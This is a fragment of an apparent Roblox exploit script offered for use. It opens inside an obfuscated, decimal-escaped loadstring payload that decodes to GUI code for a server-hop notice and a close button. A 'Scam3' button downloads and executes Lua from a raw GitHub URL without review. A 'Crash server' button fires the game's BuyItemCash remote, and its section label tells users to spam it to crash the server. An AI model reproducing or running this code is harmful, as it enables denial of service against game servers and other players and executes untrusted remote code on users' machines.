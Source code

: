 101\108\115\101\10\9\9\114\101\116\117\114\110\32\110\111\116\105\102\121\40\34\83\101\114\118\101\114\104\111\112\34\44\34\67\111\117\108\100\110\39\116\32\102\105\110\100\32\97\32\115\101\114\118\101\114\46\34\41\10\9\101\110\100\10\101\110\100\41\10\10\120\46\78\97\109\101\32\61\32\34\120\34\10\120\46\80\97\114\101\110\116\32\61\32\70\114\97\109\101\10\120\46\66\97\99\107\103\114\111\117\110\100\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\51\54\44\32\51\54\44\32\51\54\41\10\120\46\66\111\114\100\101\114\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\51\54\44\32\51\54\44\32\51\54\41\10\120\46\80\111\115\105\116\105\111\110\32\61\32\85\68\105\109\50\46\110\101\119\40\48\46\56\54\52\55\54\56\54\56\52\44\32\48\44\32\48\44\32\48\41\10\120\46\83\105\122\101\32\61\32\85\68\105\109\50\46\110\101\119\40\48\44\32\55\54\44\32\48\44\32\53\48\41\10\120\46\70\111\110\116\32\61\32\69\110\117\109\46\70\111\110\116\46\79\115\119\97\108\100\10\120\46\84\101\120\116\32\61\32\34\88\34\10\120\46\84\101\120\116\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\50\53\53\44\32\50\53\53\44\32\50\53\53\41\10\120\46\84\101\120\116\83\99\97\108\101\100\32\61\32\116\114\117\101\10\120\46\84\101\120\116\83\105\122\101\32\61\32\49\52\46\48\48\48\10\120\46\84\101\120\116\87\114\97\112\112\101\100\32\61\32\116\114\117\101\10\120\46\68\114\97\103\103\97\98\108\101\32\61\32\116\114\117\101\10\120\46\77\111\117\115\101\66\117\116\116\111\110\49\68\111\119\110\58\99\111\110\110\101\99\116\40\102\117\110\99\116\105\111\110\40\41\10\9\103\97\109\101\46\67\111\114\101\71\117\105\46\83\99\114\101\101\110\71\117\105\58\68\101\115\116\114\111\121\40\41\10\101\110\100\41\10")()
end)

Section:NewButton("Scam3" , "scam2", function()
    loadstring(game:HttpGet(('https://raw.githubusercontent.com/imaboy12321/shhh/main/gaey'),true))()
end)


local Section = Tab:NewSection("spama ou baixe autoclick")
Section:NewButton("Crash server", "Crash server", function()
    local args = {
    [1] = "Jet"
    }

    game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
end)
 

